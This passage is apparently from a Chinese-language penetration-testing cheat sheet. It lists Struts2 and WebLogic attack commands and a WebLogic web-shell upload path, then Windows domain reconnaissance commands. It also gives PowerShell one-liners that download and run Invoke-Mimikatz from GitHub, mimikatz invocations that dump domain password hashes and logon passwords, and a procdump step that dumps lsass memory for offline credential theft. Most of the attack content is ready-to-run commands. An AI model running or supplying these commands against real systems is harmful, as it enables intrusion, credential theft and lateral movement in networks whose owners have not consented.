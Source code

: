 ```
#https://github.com/Lucifer1993/struts-scan
python structs-scan.py http://target.com/struts2%2Dshowcase/actionChain.action #扫描
python structs-scan.py -u http://target.com -i struts2-048 #攻击
```

#### Weblogic

```
#https://github.com/rabbitmask/WeblogicScan
python3 ws.py -t ip:7001
weblogic上传shell路径：
.../servers/AdminServer/tmp/_WL_internal/uddiexplorer/随机字符/war/***.jsp
```

## 内网渗透

#### 域信息搜集

```powershell
>net user /domain #查询所有域用户
>net view /domain #查看有几个域
>net view /domain:XXX #查看域内的主机
>net group /domain #查看域里面的组
>net share #查看共享文件夹
>query user
tscon 2 #切换用户

>net group "domain computers" #domain：查看域内所有的主机名
>dsquery server #查询域控制器主机名
"CN=WIN-KMZ8MFWF5L8,CN=Servers,..."
>net group "domain controllers" /domain
WIN-KMZ8MFWF5L8$ #去掉结尾$符号
>ping WIN-KMZ8MFWF5L8 #查询域控制器IP
>net group "domain admins" /domain #查询域管理员用户名
```

#### 提取系统信息

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"); Invoke-Mimikatz DumpCerts #查询域管理员密码
powershell IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"); Get-PassHashes #查询域管理员密码hash

mimikatz log "privilege::debug" "lsadump::lsa /patch" #获取域控制器上所有用户的hash
mimikatz "privilege::debug" "sekurlsa::logonPasswords" #抓取密码
#如果无法上传mimikatz，先将lsass进程内存dump出来，再通过mimikatz本地获取密码
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```

#### 用户凭据收集
